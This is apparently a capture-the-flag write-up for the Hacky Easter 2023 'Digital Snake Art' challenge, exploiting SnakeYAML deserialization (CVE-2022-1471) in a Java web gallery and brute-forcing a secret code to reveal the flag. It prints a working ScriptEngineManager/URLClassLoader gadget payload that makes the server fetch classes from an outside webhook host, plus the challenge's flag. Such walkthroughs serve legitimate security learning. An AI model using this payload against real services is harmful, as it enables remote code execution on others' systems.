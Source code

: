 # Description

# Digital Snake Art

I'm a big fan of digital art!

How do you like my new gallery?

<http://ch.hackyeaster.com:2307>

Note: The service is restarted every hour at x:00.

# Solution

come on.. a java application?...

after looking at the code i noticed that the get parameter `art` was parsed by snakeyaml as the SnakeArt.class, from the infamouse log4shell exploit i knew that something like that can be very very bad

so lets look for some snakeyaml deserialization exploits:

<https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858>

found a recent cve, this will be it i guess!!

<https://nvd.nist.gov/vuln/detail/CVE-2022-1471>


found a poc, but this is useless to me...

<https://github.com/1fabunicorn/SnakeYAML-CVE-2022-1471-POC>

another one

<https://github.com/advisories/GHSA-mjmj-j48q-9wg2>

they all only use payloads which connect to a webserver... but noone tells me how to build my own payload to do stuff i want...

well i am really sure this is the thing i need to exploit, but i really don't know how

so i tried to at least get a successful connection to a webserver using this payload and the <https://webhook.site/> service

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["https://webhook.site/b7891e85-f248-47a1-a84d-e915e77ff370"]
  ]]
]
```

this are the request headers i got:

```
Headers
connection	close
accept	text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
host	webhook.site
user-agent	Java/1.8.0_212
content-length
content-type
```

so it looks valid!

this cve showed me that i can load and execute jar files using this payload type

<https://www.websec.ca/publication/Blog/CVE-2022-21404-Another-story-of-developers-fixing-vulnerabilities-unknowingly-because-of-CodeQL>

so maybe this is the solution?!

after some time i tried again..., and tried this first - it actually did something!

```
!!com.hackyeaster.digitalsnakeart.Image [ "test" ]
```

this looks like help:

<https://stackabuse.com/reading-and-writing-yaml-files-in-java-with-snakeyaml/>


so after some trying i got to this:

```
name: Snake and Rabbit Being Friends
image: !!com.hackyeaster.digitalsnakeart.Flag [ !!com.hackyeaster.digitalsnakeart.Code [ 123]]
source: DALL-E
resolution: 256x256
```

so what i need to do is for the image input i need to provide an image class object (the flag class inherits image, so that works)

since to instantiate the flag class i also need to instantiate the code class

now i "only" need to get the right code

oh well...

just bruteforce it...

```
return (code > 0 && code < 500 && code == SnakeService.getSecretCode());
```

the solve script is not pretty, because i put the whole wrong picture in it, but it works!

```
$ python3 solve.py 
198
```

so here we go! exploiting it again manually with the right code to get the flag picture

```
$ zbarimg solution.png 
QR-Code:he2023{0n3_d03s_n0t_s1mply_s0lv3_th1s_chllng!}
scanned 1 barcode symbols from 1 images in 0.05 seconds
```

# FLAG: he2023{0n3_d03s_n0t_s1mply_s0lv3_th1s_chllng!}

